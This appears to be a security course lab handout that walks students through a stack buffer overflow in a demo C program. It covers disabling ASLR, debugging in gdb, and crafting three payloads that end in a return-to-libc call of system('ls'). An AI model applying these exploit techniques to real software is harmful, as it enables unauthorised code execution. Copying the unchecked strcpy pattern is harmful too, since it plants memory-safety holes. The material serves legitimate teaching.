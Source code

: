 # CYBER 366

## Prerequisites
#### disable address space layout randomization
``` bash
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

#### compile the demo program
``` bash
make
```

> note: to have a better debugging experience, you can compile the demo with debug information inside. Please check the Makefile for details.

## Vulnerability
``` c
int foo(char str2[]){
	char array[4];
	strcpy(array, str2);
	return 1;
}
```
`strcpy` doesn't check the boundary of the destination. The overflow occurs as long as the size of source buffer is larger than the destination. Here, the size of destination is 4, which could be smaller than the size of `str2`.

## Debugging
### hijack the control flow
After attaching gdb to the demo, pass input to the demo by running 
```bash=
start `cat hijack_to_BBBB_payload`
```

![](https://i.imgur.com/QyBWQ7J.png)

Go through the statement. 

![](https://i.imgur.com/t78Uhz7.png)

Check the instructions before the return of function foo.

![](https://i.imgur.com/IL9cx1P.png)

You should be able to run the program instruction by instruction using `ni`.

![](https://i.imgur.com/rtxyd23.png)

Now we are at the `ret` instruction of function `foo`, check the stack for the target we are returning to.

![](https://i.imgur.com/KPfRAsl.png)

When you continue executing, you will see the program has been hijacked to `0x42424242`

![](https://i.imgur.com/Q84OFJA.png)


#### How to generate the payload for this hijacking?
```bash=
python -c "print('A'*16 + 'BBBB')" > hijack_to_BBBB_payload
```
### hijack to print hello
Now we are able to hijack the control flow to arbitrary address, so we are able to let the program print `hello` if we hijack the control flow to function `bar`.

Just like hijacking to 0x42424242, check the adress on the stack that we are returning to in function `foo`.

#### How to generate the payload for this hijacking?
```bash=
python -c "print('A'*16 + '\x86\x84\x04\x08')" > hello_payload
```
> `\x86\x84\x04\x08` is the address of function `bar`

### Hijack to list the files
To list the files, we need to craft the payload of ROP that can execution 
```bash=
system("ls")
```

By checking the stack memory layout before the return in function `foo`, we see the memory looks like the following.

![](https://i.imgur.com/xNCKwoE.png)

Where we are jumping to the `0x08048330`, which is `system` function, with the argument referencing to `0x0804a07c`.


#### How to generate the payload for this hijacking?
```bash=
python -c "print('A'*16 + '\x30\x83\x04\x08' + 'BBBB' + '\x7c\xa0\x04\x08'+'ls')" > system_ls_payload
```
> '\x30\x83\x04\x08' is the address of `system`, 'BBBB' is left for padding, '\x7c\xa0\x04\x08' is the address of string `ls`.


## What to submit
Please take screenshot of each step below during the debugging process for three different payloads, paste them in a word document, and turn it in through canvas.
1. the process of going through statements
2. the stack memory layout before executing ret instruction in function `foo`
3. the output of the program after sending the payload
